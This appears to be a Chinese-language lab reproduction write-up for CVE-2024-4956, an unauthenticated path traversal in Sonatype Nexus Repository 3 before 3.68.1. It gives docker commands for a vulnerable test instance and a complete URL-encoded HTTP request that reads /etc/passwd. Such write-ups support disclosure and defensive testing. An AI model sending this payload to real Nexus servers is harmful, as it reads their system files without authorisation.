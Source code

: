 # **Sonatype Nexus Repository 3 路径遍历漏洞(CVE-2024-4956)**

​	Sonatype Nexus Repository 是美国Sonatype公司的一款存储库管理器，用于存储和分发软件组件、构建工件和 Docker 容器。它支持多种包格式，与 CI/CD 工具集成，并提供安全性和合规性功能。

​	Sonatype NexusRepository 3.68.1之前版本存在安全漏洞，该漏洞源于存在路径遍历，允许未经身份验证的攻击者读取系统文件。

**影响版本**

Sonatype Nexus Repository 3 < 3.68.1

产品官网：https://help.sonatype.com/index.html?lang=en



参考链接

https://help.sonatype.com/en/download-archives---repository-manager-3.html

https://github.com/sonatype/nexus-public/releases?page=2



## 漏洞环境

执行如下命令启动一个nexus3:3.68.0：

```
docker pull sonatype/nexus3:3.68.0-java11
docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.68.0-java11
```

环境启动后，访问`http://your-ip:8081`![image-20240609093843814](./1.png)



## 漏洞复现

发起如下http请求

```
GET /%2F%2F%2F..%2F%2F.%2F%2F..%2F%2F%2F..%2F%2F..%2F.%2F%65%74%63%2F%70%61%73%73%77%64 HTTP/1.1
Host: 192.168.160.128:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: sidebar_collapsed=false; NX-ANTI-CSRF-TOKEN=0.4002459339420834; apt.uid=AP-YFGMCGUNNIFB-2-1717897114084-46859182.0.2.6b933aba-006b-4c12-b4b5-a0ddc2adfcf4; apt.sid=AP-YFGMCGUNNIFB-2-1717897114083-15232726
```

Connection: close

![image-20240609094122256](./2.png)
